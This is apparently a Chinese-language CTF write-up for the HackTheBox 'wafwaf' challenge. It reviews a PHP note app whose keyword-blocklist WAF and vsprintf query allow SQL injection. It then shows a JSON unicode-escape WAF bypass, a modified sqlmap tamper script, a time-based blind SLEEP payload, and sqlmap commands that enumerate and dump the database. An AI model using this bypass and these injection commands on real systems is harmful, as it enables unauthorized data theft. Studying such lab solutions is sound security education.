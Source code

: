 # wafwaf

My classmate Jason made this small and super secure note taking application, check it out!

### Solution
* 這一題是 code review
    ```php=
    <?php error_reporting(0);
    require 'config.php';

    class db extends Connection {
        public function waf($s) {
            if (preg_match_all('/'. implode('|', array(
                '[' . preg_quote("(*<=>|'&-@") . ']',
                'select', 'and', 'or', 'if', 'by', 'from', 
                'where', 'as', 'is', 'in', 'not', 'having'
            )) . '/i', $s, $matches)) die(var_dump($matches[0]));
            return json_decode($s);
        }

        public function query($sql) {
            $args = func_get_args();
            unset($args[0]);
            return parent::query(vsprintf($sql, $args));
        }
    }

    $db = new db();

    if ($_SERVER['REQUEST_METHOD'] == 'POST') {
        $obj = $db->waf(file_get_contents('php://input'));
        $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
    } else {
        die(highlight_file(__FILE__, 1));
    }
    ?>
    ```
* 流程滿清楚的，用 `post`，資料會用 `php://input` 拿到，要傳 json，格式是 `{"user":"some_thing"}`，傳的資料會先被 waf 經過 `json_decode`，之後再放進去 qurey 裡面
* 直接看 query 的語法，滿明顯的有 sql injection 的問題，有一個更大的問題是只能用 time based 的方法拿到資料，因為就算傳輸的資料是正確的，也拿不到回傳資料

#### json_decode
* https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/
* 參考完這一篇可以知道可以透過編碼繞過 waf
* 例如說 `a -> \u0061`

#### sql injection
* 因為我懶得寫 script（有空的話會寫拉），所以我用 sqlmap 自帶的 tamper 來攻擊
* https://xz.aliyun.com/t/2746
* 在這裡我用的是 `charunicodeencode.py`，可以參考一下他的輸出
    ```bash=
    使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
    使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045
    ```
* 所以說只要稍微的改動一下腳本的內容就可以用拉
* 我把最後的回傳改一下 `return retVal.replace('%u0020', ' ').replace('%', '\\')`，就可以用拉
* 因為很明顯是 time based，所以直接指定會比較不花時間
    ```bash=
    sqlmap -r post --tamper charunicodeencode.py --technique=T --batch
    ```
    ```bash=
    ---
    Parameter: JSON user ((custom) POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"user":"123' AND (SELECT 8608 FROM (SELECT(SLEEP(5)))BQbD) AND 'ofJD'='ofJD"}
    ---
    ```
* 之後看一下他的 database
    ```bash=
    sqlmap -r post --tamper charunicodeencode.py --technique=T --dbs --batch
    ```
    ```bash=
    available databases [5]:
    [*] db_m8452
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] sys
    ```
* 滿明顯就是 `sb_m8452`，所以指定他看一下 table 拉
    ```bash=
    sqlmap -r post --tamper charunicodeencode.py --technique=T -D db_m8452 --tables --batch
    ```
    ```bash=
    Database: db_m8452
    [2 tables]
    +-----------------------+
    | definitely_not_a_flag |
    | notes                 |
    +-----------------------+
    ```
    > 所以那個 `definitely_not_a_flag` 是在 XDDDD
* 他說沒有 flag 當然要 dump 出來看一下拉
    ```bash=
    sqlmap -r post --tamper charunicodeencode.py --technique=T -D db_m8452 --dump --batch
    ```
    ```bash=
    Database: db_m8452
    Table: notes
    [1 entry]
    +----+--------+----------+
    | id | note   | assignee |
    +----+--------+----------+
    | 1  | wafwaf | admin    |
    +----+--------+----------+
    
    Database: db_m8452
    Table: definitely_not_a_flag
    [1 entry]
    +-----------------------------------+
    | flag                              |
    +-----------------------------------+
    | HTB{w4f_w4fing_my_w4y_0utt4_h3r3} |
    +-----------------------------------+
    ```

#### result
* `json_decode` 的編碼問題真的讓我學到一課呢
* tamper 讚讚
* 我有空的時候一定會寫 script 的
* flag : `HTB{w4f_w4fing_my_w4y_0utt4_h3r3}`
